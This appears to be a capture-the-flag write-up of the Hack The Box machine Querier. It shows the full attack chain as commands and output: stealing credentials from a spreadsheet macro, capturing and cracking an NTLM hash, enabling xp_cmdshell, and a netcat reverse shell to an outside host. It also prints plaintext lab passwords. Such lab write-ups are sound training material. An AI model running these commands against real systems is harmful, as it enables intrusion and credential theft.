

# Querier
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.125 -T4                                                            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-07 03:05 BST
Stats: 0:06:52 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 72.17% done; ETC: 03:15 (0:02:39 remaining)
Nmap scan report for 10.10.10.125 (10.10.10.125)
Host is up (0.15s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 693.11 seconds
```
```
└─$ nmap -Pn -p135,139,445,1433,5985 -sC -sV 10.10.10.125 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-07 03:18 BST
Nmap scan report for 10.10.10.125 (10.10.10.125)
Host is up (0.13s latency).

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.10.125:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: QUERIER
|     DNS_Domain_Name: HTB.LOCAL
|     DNS_Computer_Name: QUERIER.HTB.LOCAL
|     DNS_Tree_Name: HTB.LOCAL
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.10.125:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2023-09-06T19:18:33+00:00; -7h00m00s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-09-06T14:05:43
|_Not valid after:  2053-09-06T14:05:43
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-06T19:18:24
|_  start_date: N/A
|_clock-skew: mean: -7h00m00s, deviation: 0s, median: -7h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.61 seconds
```
- `smb`
```
└─$ smbclient -N -L //10.10.10.125

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Reports         Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.125 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```
## Foothold/User #1
- `//10.10.10.125/Reports`
```
└─$ smbclient -N //10.10.10.125/Reports
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 28 23:23:48 2019
  ..                                  D        0  Mon Jan 28 23:23:48 2019
  Currency Volume Report.xlsm         A    12229  Sun Jan 27 22:21:34 2019

                5158399 blocks of size 4096. 828878 blocks available
smb: \> get "Currency Volume Report.xlsm"
getting file \Currency Volume Report.xlsm of size 12229 as Currency Volume Report.xlsm (23.7 KiloBytes/sec) (average 23.7 KiloBytes/sec)
smb: \> exit
```
- We can use [oletools](https://github.com/decalage2/oletools) to open `xlsm` file
```
└─$ olevba 'Currency Volume Report.xlsm' 
XLMMacroDeobfuscator: pywin32 is not installed (only is required if you want to use MS Excel)
olevba 0.60.1 on Python 3.11.4 - http://decalage.info/python/oletools
===============================================================================
FILE: Currency Volume Report.xlsm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

' macro to pull data for client volume reports
'
' further testing required

Private Sub Connect()

Dim conn As ADODB.Connection
Dim rs As ADODB.Recordset

Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10
conn.Open

If conn.State = adStateOpen Then

  ' MsgBox "connection successful"
 
  'Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close

End If

End Sub
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|Suspicious|Open                |May open a file                              |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+
```
- Let's connect using `impacket-mssqlclient`
```
└─$ impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 32576
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 

```

## User #2
- Let's enumerate
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
```
SQL> SELECT name FROM master.sys.databases;
name                                                                                                                               
--------------------------------------------------------------------------------------------------------------------------------   
master                                                                                                                             
tempdb                                                                                                                             
model                                                                                                                              
msdb                                                                                                                               
volume
```
```
SQL> use volume;
[*] ENVCHANGE(DATABASE): Old Value: volume, New Value: volume
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
SQL> select * from volume.INFORMATION_SCHEMA.TABLES;
TABLE_CATALOG                                                                                                                      TABLE_SCHEMA                                                                                                                       TABLE_NAME                                                                                                                         TABLE_TYPE   

--------------------------------------------------------------------------------------------------------------------------------   --------------------------------------------------------------------------------------------------------------------------------   --------------------------------------------------------------------------------------------------------------------------------   ----------   

SQL>
```
```
SQL> select name from sys.database_principals;
name                                                                                                                               
--------------------------------------------------------------------------------------------------------------------------------   
public                                                                                                                             
dbo                                                                                                                                
guest                                                                                                                              
INFORMATION_SCHEMA                                                                                                                 
sys                                                                                                                                
reporting                                                                                                                          
db_owner                                                                                                                           
db_accessadmin                                                                                                                     
db_securityadmin                                                                                                                   
db_ddladmin                                                                                                                        
db_backupoperator                                                                                                                  
db_datareader                                                                                                                      
db_datawriter                                                                                                                      
db_denydatareader                                                                                                                  
db_denydatawriter
```
```
SQL> SELECT entity_name, permission_name FROM fn_my_permissions(NULL, 'SERVER');
entity_name                                               permission_name                                                
--------------------------------------                    ------------------------------------------------------------   
server                                                    CONNECT SQL                                                    
server                                                    VIEW ANY DATABASE
```
- We can try `Relay attack` to steal `NTLM`
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
  - Spawn `responder`
    - `sudo responder -I tun0`
  - `xp_dirtree '\\10.10.16.9\share'`





- Let's try cracking the hash
```
└─$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

MSSQL-SVC::QUERIER:9ff61af2dbedec92:9f2e38090e7e7fcc9c591f15a04e054e:0101000000000000808d4a879fe1d90163787420f91ba8670000000002000800440035003100380001001e00570049004e002d0033004500440034004d00370032004e004e0053004a0004003400570049004e002d0033004500440034004d00370032004e004e0053004a002e0044003500310038002e004c004f00430041004c000300140044003500310038002e004c004f00430041004c000500140044003500310038002e004c004f00430041004c0007000800808d4a879fe1d9010600040002000000080030003000000000000000000000000030000081f3393493531a125c3b622d085b2b4351c099d0ec914204d1ed13d91c0fb76b0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003900000000000000000000000000:corporate568
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: MSSQL-SVC::QUERIER:9ff61af2dbedec92:9f2e38090e7e7fc...000000
Time.Started.....: Thu Sep  7 15:28:07 2023 (8 secs)
Time.Estimated...: Thu Sep  7 15:28:15 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1161.0 kH/s (0.37ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 8958464/14344385 (62.45%)
Rejected.........: 0/8958464 (0.00%)
Restore.Point....: 8957952/14344385 (62.45%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: correita.54 -> corp111
Hardware.Mon.#1..: Util: 92%
...                                 
```

- Let's connect to `mssql` using new creds

```
└─$ impacket-mssqlclient mssql-svc:'corporate568'@10.10.10.125 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 32576
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> SELECT entity_name, permission_name FROM fn_my_permissions(NULL, 'SERVER');
entity_name         permission_name                                                
------------------  ------------------------------   
server              CONNECT SQL                                                    
server              SHUTDOWN                                                       
server              CREATE ENDPOINT                                                
server              CREATE ANY DATABASE                                            
server              CREATE AVAILABILITY GROUP                                      
server              ALTER ANY LOGIN                                                
server              ALTER ANY CREDENTIAL                                           
server              ALTER ANY ENDPOINT                                             
server              ALTER ANY LINKED SERVER                                        
server              ALTER ANY CONNECTION                                           
server              ALTER ANY DATABASE                                             
server              ALTER RESOURCES                                                
server              ALTER SETTINGS                                                 
server              ALTER TRACE                                                    
server              ALTER ANY AVAILABILITY GROUP                                   
server              ADMINISTER BULK OPERATIONS                                     
server              AUTHENTICATE SERVER                                            
server              EXTERNAL ACCESS ASSEMBLY                                       
server              VIEW ANY DATABASE                                              
server              VIEW ANY DEFINITION                                            
server              VIEW SERVER STATE                                              
server              CREATE DDL EVENT NOTIFICATION                                  
server              CREATE TRACE EVENT NOTIFICATION                                
server              ALTER ANY EVENT NOTIFICATION                                   
server              ALTER SERVER STATE                                             
server              UNSAFE ASSEMBLY                                                
server              ALTER ANY SERVER AUDIT                                         
server              CREATE SERVER ROLE                                             
server              ALTER ANY SERVER ROLE                                          
server              ALTER ANY EVENT SESSION                                        
server              CONNECT ANY DATABASE                                           
server              IMPERSONATE ANY LOGIN                                          
server              SELECT ALL USER SECURABLES                                     
server              CONTROL SERVER 
```
- We cant' perform `xp_cmdshell` since it's disabled
```
SQL> xp_cmdshell "whoami"
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```
- We can enable it
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#execute-os-commands
```
SQL> sp_configure 'show advanced options', '1'
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> sp_configure 'xp_cmdshell', '1'
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

querier\mssql-svc                                                                  

NULL                                                                               

```
- Let's get the reverse shell
```
└─$ impacket-smbserver share $(pwd) -smb2support                                      
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
...
```
```
SQL> xp_cmdshell "\\10.10.16.9\share\nc64.exe 10.10.16.9 6666 -e cmd"
```


## Root
- `whoami`
```
c:\Users>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

c:\Users>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID                                                             Attributes                                        
==================================== ================ =============================================================== ==================================================
Everyone                             Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Monitor Users    Alias            S-1-5-32-558                                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6                                                         Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113                                                       Mandatory group, Enabled by default, Enabled group
NT SERVICE\MSSQLSERVER               Well-known group S-1-5-80-3880718306-3832830129-1677859214-2598158968-1052248003 Enabled by default, Enabled group, Group owner    
LOCAL                                Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10                                                     Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288        
```
- `SeImpersonatePrivilege` is could be `Potato` privilege escalation path
- But let's also run `PowerUp`

```
PS C:\Users\mssql-svc> import-module .\powerup.ps1
import-module .\powerup.ps1
PS C:\Users\mssql-svc> Invoke-AllChecks
Invoke-AllChecks


Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 2812
ProcessId   : 3900
Name        : 3900
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

ModifiablePath    : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
IdentityReference : QUERIER\mssql-svc
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files

Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group 
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
```

- Looks like we have creds in `GPP`
  - `Administrator:MyUnclesAreMarioAndLuigi!!1!`
  - So let's get our `shell`


- We could also modify service
  - You can check [0xdf](https://0xdf.gitlab.io/2019/06/22/htb-querier.html#modifiable-service-abuse)